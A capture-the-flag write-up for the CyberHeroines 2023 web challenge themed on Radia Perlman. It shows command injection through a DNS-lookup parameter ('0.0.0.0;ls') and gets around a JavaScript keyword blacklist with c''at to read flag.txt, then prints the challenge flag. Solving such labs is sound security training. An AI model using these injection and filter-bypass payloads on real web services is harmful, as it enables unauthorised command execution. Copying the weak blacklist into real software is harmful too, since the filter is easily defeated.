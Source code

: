 # CyberHeroines 2023

## Radia Perlman

> [Radia Joy Perlman](https://en.wikipedia.org/wiki/Radia_Perlman) (/ˈreɪdiə/;[1] born December 18, 1951) is an American computer programmer and network engineer. She is a major figure in assembling the networks and technology to enable what we now know as the internet. She is most famous for her invention of the spanning-tree protocol (STP), which is fundamental to the operation of network bridges, while working for Digital Equipment Corporation, thus earning her nickname "Mother of the Internet". Her innovations have made a huge impact on how networks self-organize and move data. She also made large contributions to many other areas of network design and standardization: for example, enabling today's link-state routing protocols, to be more robust, scalable, and easy to manage. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Radia_Perlman)
> 
> Chal: We thought we'd build a [webapp](https://cyberheroines-web-srv3.chals.io/) to help the [Mother of the Internet](https://www.youtube.com/watch?v=5D1v42nw25E) capture the flag.
>
>  Author: [Rusheel](https://github.com/Rusheelraj)
>

Tags: _web_

## Solution
We have a small web app giving us a quote from Radia Perlman and a link that allows execute dns queries.

```
Start out with finding the right problem to solve. This is a combination of "what customers are asking for", "what customers don’t even know they want yet", and "what can be solved with something simple to understand and manage"- Radia Perlman

We solved a problem you didnt even know you had. We built an online DNS Querying WebApp. Try querying cyberheroines.ctfd.io, by using /dns?ip=cyberheroines.ctfd.io
```

Clicking the link gives us

```
Command Output: Server: 172.31.0.2 Address: 172.31.0.2#53 Non-authoritative answer: Name: cyberheroines.ctfd.io Address: 165.227.251.183 Name: cyberheroines.ctfd.io Address: 165.227.251.182
```

Playing around with the parameter eventually gives us an error (`dns?ip=x`):

```
Error: Command failed: nslookup x 2>&1
```

Ok `nslookup` is used so the application could be vulnerable to command injection. We can try this by passing in `dns?ip=0.0.0.0;ls`.

```
Command Output: ** server can't find 0.0.0.0.in-addr.arpa: NXDOMAIN

code7.js
flag.txt
node_modules
package-lock.json
package.json
public
views
```

Giving us access to the [`code`](code7.js). Inspecting the code we can see there is a small blacklist for some commands:

```javascript
function isSafeInput(input) {
  const unsafeKeywords = ["cat", "tail", "less", "more", "awk", "&&", "head", "|", "$", "`", "<", ">", "&", "*"];
  return !unsafeKeywords.some(keyword => input.includes(keyword)) || input === "head";
}
```

But this can be easily bypassed `dns?ip=0.0.0.0;c''at flag.txt` giving us the flag.

Flag `chctf{1_l0v3_5p4wn1n6_n0d3_ch1ld_pr0c355}`